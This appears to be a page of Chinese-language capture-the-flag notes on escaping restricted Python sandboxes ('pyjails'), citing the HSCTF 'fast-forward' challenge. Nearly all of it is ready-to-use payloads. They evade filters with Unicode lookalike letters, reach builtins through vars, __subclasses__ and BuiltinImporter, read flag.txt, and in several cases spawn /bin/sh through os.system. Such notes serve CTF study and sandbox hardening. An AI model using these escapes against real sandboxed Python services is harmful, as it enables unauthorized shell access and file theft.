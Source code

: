 - 奇怪字体系列：
  - `ｅｘｅｃ('ｐｒｉｎｔ(ｏｐｅｎ(' + ｃｈｒ(34) + ｃｈｒ(102) + ｃｈｒ(108) + ｃｈｒ(97) + ｃｈｒ(103) + ｃｈｒ(46) + ｃｈｒ(116)+ｃｈｒ(120)+ｃｈｒ(116) + ｃｈｒ(34) + ')' + ｃｈｒ(46)+'ｒｅａｄ())')`
  - `𝘣𝘳𝘦𝘢𝘬𝘱𝘰𝘪𝘯𝘵()`
  - `𝑒𝓍𝑒𝒸(𝒾𝓃𝓅𝓊𝓉())`
  - `𝘦𝘹𝘦𝘤(𝘪𝘯𝘱𝘶𝘵())`
- 类似[fast-forward](https://github.com/hsncsclub/hsctf-10-challenges/tree/main/misc/fast-forward),[wp](https://ebonyx.notion.site/misc-fast-forward-v2-40c53a6a56ff4ad19523524065b2c9c3)的pyjial： 限制可使用的操作码和字节码，以及标识符的长度（the opcodes the bytecode is allowed to contain and the lengths of the identifiers, or “names” that we can use）。例如，只能使用5个字符长度以下的函数（print之类的，breakpoint就不行。不过字符串不限制长度）。以下是此类型题可用payload：
  - `bt=vars(vars(type.mro(type)[1])['__getattribute__'](all,'__self__'));imp=bt['__import__'];bt['print'](bt['getattr'](bt['getattr'](vars(imp('inspect'))['currentframe'](),'f_back'),'f_globals')['flag'])`
    - 用`object.__getattribute__`替代getattr。此题flag为一个全局变量，在调用输入代码的main函数中可访问。导入inspect模块并使用`inspect.currentframe().f_back`获取父栈帧即可从f_globals中获取。
  - `(lambda: print((1).__class__.__base__.__subclasses__()[134].__init__.__globals__['system']('/bin/sh')))()`
    - lambda函数可以“隐藏”函数名和参数名。来源：https://kos0ng.gitbook.io/ctfs/ctfs/write-up/2023/hsctf/misc#fast-forward-26-solves
  - `E=type('',(),{'__eq__':lambda s,o:o})();x=vars(str)==E;x["count"]=lambda s,o:s` .详情见： https://github.com/python/cpython/issues/88004
  ```py
  #去除注释并用分号连接后使用
  self = vars(type(chr))['__self__']
  vrs = vars(type(self))['__get__'](self, chr)
  open = vars(vrs)['open']
  p = vars(vrs)['print']
  gat = vars(vrs)['getattr']
  fp = open('flag.txt', 'r')
  flag = gat(fp, 'read')()
  p(flag)

  #或

  # get vars() of <class 'type'>:
  tvs = vars(type(type(1)))
  # get __base__ attribute:
  base = tvs['__base__']
  # call base.__get__(type(1)) to get <class 'object'>:
  ot = vars(type(base))['__get__'](base, type(1))
  # pull getattr from <class 'object'>:
  gat = vars(ot)['__getattribute__']
  # get list of all classes:
  cs = gat(ot, '__subclasses__')()
  # find BuiltinImporter class:
  ldr = [x for x in cs if 'BuiltinImporter' in str(x)][0]
  # get load_module function:
  ldm = gat(gat(ldr, 'load_module'), '__func__')
  # load os and sys modules:
  os = ldm(ldr, 'os')
  sys = ldm(ldr, 'sys')
  # os.open(flag.txt):
  fp = gat(os, 'open')('flag.txt', gat(os, 'O_RDONLY'))
  # os.read(fp):
  flag = gat(os, 'read')(fp, 100)
  # sys.stdout.write(flag.decode()):
  gat(gat(sys, 'stdout'), 'write')(gat(flag, 'decode')())
  ```
  - `x = type.mro(type); x = x[1]; ga = vars(x)['__getattribute__']; sc = ga(x, '__subclasses__')(); pr = sc[136]('fleg',''); vars(pr)['_Printer__filenames'] = ['flag.txt']; pr()`,需要爆破`_Printer`的索引
  - `o=type(()).mro()[1];g=vars(o)['__getattribute__'];b=g(chr,'__self__');i=g(b,'__import__');o=i('os');s=g(o,'system');s("python -c \"print(open('flag.txt').read())\"")`
  ```py
  vars(vars()["license"])["_Printer__lines"]=None
  ```